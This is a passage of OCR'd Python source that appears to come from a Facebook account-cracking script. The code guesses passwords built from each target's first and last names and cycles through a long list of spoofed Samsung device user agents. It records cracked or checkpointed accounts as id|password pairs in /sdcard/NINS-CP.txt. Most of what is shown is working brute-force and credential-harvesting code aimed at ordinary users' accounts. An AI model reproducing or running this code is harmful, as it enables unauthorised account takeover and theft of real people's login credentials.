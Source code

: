                         elif 'checkpoint' in Shahin:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;126m [NINS-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/NINS-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
xxxxx=(f"GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
#
def ffb1(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [AVI] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)